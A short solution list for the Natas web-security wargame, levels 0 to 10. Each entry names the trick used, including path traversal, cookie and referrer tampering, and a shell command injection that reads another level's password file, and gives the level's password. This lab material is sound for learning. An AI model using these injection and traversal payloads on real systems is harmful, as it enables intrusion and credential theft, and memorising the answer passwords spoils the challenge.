 # Natas

-   natas0: in comments (gtVrDuiDfck831PqWsLEZy5gyDz1clto)
-   natas1: in comments too (ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi)
-   natas2: /files/users.txt (sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14)
-   natas3: /robots.txt (Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)
-   natas4: Referrer header (iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq)
-   natas5: cookie loggedin (aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1)
-   natas6: includes/secret.inc (7z3hEENjQtflzgnT29q7wAvMNfZdh0i9)
-   natas7: ?page=../../../../etc/natas~webpass~/natas8 (DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe)
-   natas8: `echo 'echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));' | php -a` (W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl)
-   natas9: `;cat /etc/natas_webpass/natas10; ls`{.verbatim} (nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu)
-   natas10: `-v test /etc/natas_webpass/natas11`{.verbatim} (U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK)

